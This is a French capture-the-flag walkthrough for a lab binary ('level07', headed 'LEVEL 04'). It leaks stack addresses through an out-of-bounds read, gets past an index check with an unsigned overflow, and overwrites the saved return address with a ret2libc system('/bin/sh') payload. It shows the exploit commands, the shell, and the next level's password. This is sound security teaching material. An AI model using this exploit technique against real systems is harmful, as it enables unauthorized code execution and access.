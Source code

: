 ## LEVEL 04

Le programme nous informe qu'il est possible d'utiliser 3 commandes :

 - store
 - read
 - quit

Store permet de stocker un int dans un index donné.
Read permet de lire la valeur d'un index donné.
Quit permet de quitter le programme.

Néanmoins le programme nous empêche de stocker des valeurs dans certains index.
En effet les **index % 3 = 0** ne peuvent être modifiées.

Read nous permet de lire l'index d'une case mémoire et rien ne nous empêche de lire une case mémoire en dehors du programme. On peut donc essayer de trouver l'adresse du tableau que l'on peut modifier, puis l'adresse de l'eip.

Pour ça on créé un breakpoint lors de l'appel de la fonction read_number().

```
(gdb) b read_number
Breakpoint 2 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 2, 0x080486dd in read_number ()
(gdb) x $ebp+0x8
0xffffd540:     0xffffd564
```

Bien, nous avons alors l'adresse d'où est le tableau et l'adresse du tableau.

Pour nous permettre de trouver l'index de notre tableau il faut donc faire la différence entre ces deux adresses.

    0xffffd540 - 0xffffd564 = -36
    -36 / 4 = -9
Puisque notre tableau est un tableau d'int on le divise alors par 4.
On trouve alors l'index de l'adresse du tableau. On peut donc récupérer l'adresse associé en utilisant le programme.

    Input command: read
    Index: -9
    Number at data[4294967287] is 4294956388
    Completed read command successfully

   4294956388 = 0xffffd564
   
On a l'adresse du tableau, maintenant essayons de trouver l'adresse de l'eip au moment du read_number().

Cette fonction ce trouve à main+520. On place alors un breakpoint à cette endroit et on print les frame infos.

```
(gdb) b *main+520
Breakpoint 1 at 0x804892b
(gdb) r
Starting program: /home/users/level07/level07
...

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd730:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd728, args:
 Locals at 0xffffd728, Previous frame's sp is 0xffffd730
 Saved registers:
   ebx at 0xffffd71c, ebp at 0xffffd728, esi at 0xffffd720, edi at 0xffffd724, eip at 0xffffd72c
```

On à l'adresse de l'eip : 0xffffd72c.

On peut alors faire une soustraction entre l'eip et l'adresse de notre tableau pour trouver l'index de la même manière que l'index du tab.

    0xffffd72c - 0xffffd564 = 456
    456 / 4 = 114

On à alors l'index de notre eip.

```
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
```

4158936339 = 0xf7e45513

On check grace au breakpoint :

    (gdb) x 0xffffd72c
    0xffffd72c:     0xf7e45513

Bien, tout semble correct.

On va alors utiliser une ret2libc attack pour lancer un /bin/sh.

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
...
```
On a l'adresse de system() : **0xf7e6aed0  =  4159090384**

On va devoir alors modifier l'index 114 avec ce nombre. Le problème est que l'index 114 est protégé. 

    114 % 3 = 0
On va donc utiliser un max uint overflow pour atteindre l'index que l'on veut.
```
(max_uint / 4) + 114
(4294967295 / 4) + 114
1073741824 + 114
1073741938
```
**1073741938** % 3 = 1 donc notre résultat passe la protection !

Il nous reste plus qu'a trouver l'adresse de /bin/sh.

```
(gdb) info proc map
process 1757
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```
On l'a : **0xf7f897ec = 4160264172**

Pour finir on utilise l'index 116 pour les argument de notre system(), qui est donc à eip + 2.

Maintenant on peut exploiter le programme :

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384     //// system()
 Index: 1073741938	//// 114 avec max_uint overflow
 Completed store command successfully
Input command: store
 Number: 4160264172	//// /bin/sh
 Index: 116		//// index de eip+2 (arguments).
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
